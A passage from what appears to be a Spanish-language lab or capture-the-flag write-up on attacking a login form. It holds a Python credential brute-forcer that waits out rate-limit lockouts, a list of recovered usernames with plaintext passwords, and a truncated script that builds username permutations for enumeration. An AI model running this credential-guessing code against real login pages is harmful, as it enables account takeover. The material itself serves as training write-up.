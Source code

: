 ```bash
            "userid": username,
            "passwd": password,
            "submit": "submit"
        }

        # do the request
        res = requests.post(url, data=data)

        # handle generic credential error
        if "Invalid credentials" in res.text:
            print("{}[-] Invalid credentials: userid:{} passwd:{}{}".format(OKCYAN,username, password, ENDC))
        # user and password were valid !
        elif "Welcome" in res.text:
            print("{}[+] Valid credentials: userid:{} passwd:{}{}".format(OKGREEN,username, password,ENDC))
        # hit rate limit, let's say we have to wait 30 seconds
        elif lock_message in res.text:
            print(f"{WARNING}[-] Hit rate limit, sleeping 30{ENDC}")
            # do the actual sleep plus 0.5 to be sure
            time.sleep(lock_time+0.5)

```

![[Pasted image 20230120225822.png]]

se hallaron las siguientes credenciales validas:

- users:
	- support
	- guest 
	- support.us - Mustang#firebird1995
	- support.it - Mustang#firebird1995
	- support.cn - BisocaBuzau#20061985
	- support.gr - Situngkir766H!011104

## ENUMERACION DE USUARIOS 2

vamos a ver, con la misma forma de los usuarios **support** si encontramos mas usuarios con esa nomenclatura, se usara la lista de codigos de paises y esta lista de nombres de usuario:

- [https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)

y con el siguiente script se haran las permutaciones:

```bash
import itertools
import numpy

# file that contain country codes
userpass_file = "count.txt"

# file that contain user:pass
userpass_file1 = "top-usernames-shortlist.txt"

output = []

with open(userpass_file1, "r") as fh1:
    for fline1 in fh1:
        with open(userpass_file, "r") as fh:
            for fline in fh:

                fline = fline.strip()
                concatUser = fline1.strip() +"."+ fline.strip()
```